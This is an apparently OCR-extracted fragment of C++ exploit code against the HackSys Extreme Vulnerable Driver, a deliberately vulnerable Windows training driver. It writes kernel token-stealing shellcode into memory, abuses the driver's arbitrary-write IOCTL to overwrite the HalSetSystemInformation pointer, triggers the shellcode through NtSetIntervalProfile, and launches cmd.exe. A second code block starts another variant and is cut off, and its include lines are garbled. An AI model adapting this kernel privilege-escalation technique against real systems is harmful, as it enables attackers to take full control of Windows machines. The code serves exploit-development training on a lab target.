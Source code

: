 ```
        mov dword ptr[edi + 0x21], 0x50408B00;
        mov dword ptr[edi + 0x25], 0x04BAC189;
        mov dword ptr[edi + 0x29], 0x8B000000;
        mov dword ptr[edi + 0x2D], 0x0000B880;
        mov dword ptr[edi + 0x31], 0x00B82D00;
        mov dword ptr[edi + 0x35], 0x90390000;
        mov dword ptr[edi + 0x39], 0x000000B4;
        mov dword ptr[edi + 0x3D], 0x908BED75;
        mov dword ptr[edi + 0x41], 0x000000F8;
        mov dword ptr[edi + 0x45], 0x00F89189;
        mov dword ptr[edi + 0x49], 0x31610000;
        mov dword ptr[edi + 0x4D], 0x0000C3C0;
        mov dword ptr[edi + 0x51], eax;
        mov dword ptr[edi + 0x55], ebx;
        popad;
    }
    PULONG_PTR* PShellcode = (PULONG_PTR*)&SC;
    PWRITE_WHAT_WHERE Buffer;
    Buffer = (WRITE_WHAT_WHERE*)malloc(sizeof(WRITE_WHAT_WHERE));
    ZeroMemory(Buffer, sizeof(WRITE_WHAT_WHERE));
    Buffer->Where = (PULONG_PTR)HalSetSystemInformation_Address;
    Buffer->What = (PULONG_PTR)PShellcode;
    DWORD size_returned = 0;
    BOOL is_ok = DeviceIoControl(hFile, HEVD_IOCTL_ARBITRARY_WRITE, Buffer, sizeof(WRITE_WHAT_WHERE), NULL, 0, &size_returned, NULL);
    PNtSetIntervalProfile NtSetIntervalProfile = (PNtSetIntervalProfile)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtSetIntervalProfile");
    if (!NtSetIntervalProfile) {
        cout << "[!] Failed to Get the Address of NtSetIntervalProfile." << endl;
        cout << "[!] Last error " << GetLastError() << endl;
        exit(1);
    }
    NtSetIntervalProfile((ULONG*)SC, ProfileTotalIssues);
 
    PROCESS_INFORMATION ProcessInformation;
    ZeroMemory(&ProcessInformation, sizeof(ProcessInformation));
    STARTUPINFOA StartupInfo;
    ZeroMemory(&StartupInfo, sizeof(StartupInfo));
    CreateProcessA("C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, 0, CREATE_NEW_CONSOLE, NULL, NULL, &StartupInfo, &ProcessInformation);
 
    VirtualFree(SC, 0, MEM_RELEASE);
} 
```

```
//HalQuerySystemInformation
#include #include #include using namespace std;
 
#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_ARBITRARY_WRITE                               IOCTL(0x802)
 
typedef struct SYSTEM_MODULE {
    ULONG                Reserved1;
    ULONG                Reserved2;
    PVOID                ImageBaseAddress;
    ULONG                ImageSize;
    ULONG                Flags;
    WORD                 Id;
    WORD                 Rank;
    WORD                 LoadCount;
    WORD                 NameOffset;
    CHAR                 Name[256];
}SYSTEM_MODULE, * PSYSTEM_MODULE;
```
